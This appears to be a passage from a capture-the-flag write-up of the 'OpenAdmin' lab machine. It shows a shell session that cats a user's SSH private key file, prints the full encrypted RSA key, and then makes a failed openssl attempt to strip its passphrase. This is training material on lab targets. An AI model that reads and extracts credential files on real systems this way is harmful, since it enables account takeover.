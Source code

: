 ```
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
joanna@openadmin:/var/www/internal$ file /home/joanna/.ssh/id_rsa
file /home/joanna/.ssh/id_rsa
/home/joanna/.ssh/id_rsa: PEM RSA private key
joanna@openadmin:/var/www/internal$ 
```

**Download it**
```
joanna@openadmin:/var/www/internal$ cat /home/joanna/.ssh/id_rsa
cat /home/joanna/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
joanna@openadmin:/var/www/internal$
```
```
$ openssl rsa -in joanna_key -out joanna_test             
Enter pass phrase for joanna_key:
Could not read private key from joanna_key
4077EFF7FF7F0000:error:1C800064:Provider routines:ossl_cipher_unpadblock:bad decrypt:../providers/implementations/ciphers/ciphercommon_block.c:124:
4077EFF7FF7F0000:error:04800065:PEM routines:PEM_do_header:bad decrypt:../crypto/pem/pem_lib.c:467:
```

